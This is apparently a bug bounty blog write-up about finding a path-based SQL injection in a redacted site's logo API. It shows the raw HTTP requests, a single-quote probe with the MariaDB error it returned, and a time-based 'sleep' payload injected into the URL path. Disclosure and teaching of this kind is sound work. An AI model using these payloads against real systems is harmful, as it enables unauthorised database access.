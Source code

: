 ```yaml
---
title: "The exploitation of a $$$$ SQL Injection Path Based"
date: 2024-06-03 08:13:13 -03
categories: [bugbounty]
tags: [bugbounty]
image: /assets/img/Posts/sqli.png
---
```


# Here is how I exploited a unusual SQL Injection Path Based and got rewarded with bounty 


First of all, here are some sections that will be covered in this article,

```
┌───────────────Summary────────────────┐
│                                      │
│  1. Fase One - Analysing features    │
│     - Finding interesting feature    │
│  2. Fase Two - Exploitation          │
│                                      │
└──────────────────────────────────────┘
```

# Section 1 - Analysing features

In this web application, after logging in, This site had 3 main functionalities, one for creating `ebrochures`, another for creating `embed content`, and another for creating `mini sites`.

All of this 3 functionalities had a logo system, which query all existent logos uploaded to the website, along with a `logo upload` which will be covered in the next article 💀.

<img src="/assets/img/Posts/functionalities.png">


## Finding Interesting Feature

After identifying that there was a `logo upload system`, and that it searched for existing logos using a `query`, I decided to take a deeper look at this part.

<img src="/assets/img/Posts/logofunc.png">

To show the logos that have been approved, it makes a `suspicious query`, and then `loads the page` and makes it possible to upload another logo. 

In this article I will only focus on the exploration part of how the application gets these `approved logos`.


# Section 2 - Exploitation

Now, by intercepting the request to logo endpoint, we have the following:

**Request**:

```
GET /api/csb/agency-logos/session/446423692089-1763610-6897710-9302502/include/Approved,Rejected,Pending/allAgencies/false/sortBy/DATE_DESC HTTP/2
Host: redacted.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


```

Analyzing the request, it was possible to notice that after the include/ endpoint, 

it uses as arguments some values that serve to `identify` the logos, that is, those values that are there are used to `filter` the logos by `approved` logos, `pending approval`, or `rejected`.

Which seems strange, because a `comma` is even being used to separate the arguments, and at the end of the path there is a `sortBy`, which leads me to believe that this endpoint is probably `querying the database` to get the logos

**Request with single quote**:

```
GET /api/csb/agency-logos/session/446423692089-1763610-6897710-9302502/include/Approved'/allAgencies/false/sortBy/DATE_DESC HTTP/2
Host: redacted.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


```

What we got:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Approved'')  ORDER BY CAST(STATUS AS CHAR) ASC, APPROVED_DATE DESC' at line 20, errors: [{errorType: (SYSTEM_ERROR, System Error), errorCode: (030003, System Error), message: Dao Error}]}",
```

Perfect!, we now know for sure it is vulnerable to SQL Injection.

---

Since we know that the query has '), we need to escape it but fix the syntax by also putting the ), so as not to break the query

**Time Based Payload Request**:

```
GET /api/csb/agency-logos/session/446423692089-1763610-6897710-9302502/include/Approved')+and+sleep(2)+--+-/allAgencies/false/sortBy/DATE_DESC HTTP/2
Host: www.redacted.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


```


Due to the use of `akamai cdn`, and communication with `internal servers`, sleep payload was taking `6 seconds longer`, that is, `sleep(1)` takes 6 seconds, `sleep(2)` 12 seconds, and `sleep(3)`, 18 seconds, but this did not affect the triage of the report.

**sleep(1)**:

<img src="/assets/img/Posts/1sec.png">

**sleep(2)**:

<img src="/assets/img/Posts/2sec.png">


This was enough to get the report triaged. GG!

---



# Thank you !


<img src="/assets/img/Posts/end.png">

# Report Status


> Reported at - July 9, 2024, 10:26pm UTC

> Triaged at - July 10, 2024, 8:35pm UTC

> Payed at - July 11, 2024, 7:03pm UTC

> OBS: This report was made along with my friend which found this application and program for testing and send it to me, thanks @foorw1nner :)

<img src="/assets/img/Posts/bountysqli.png">
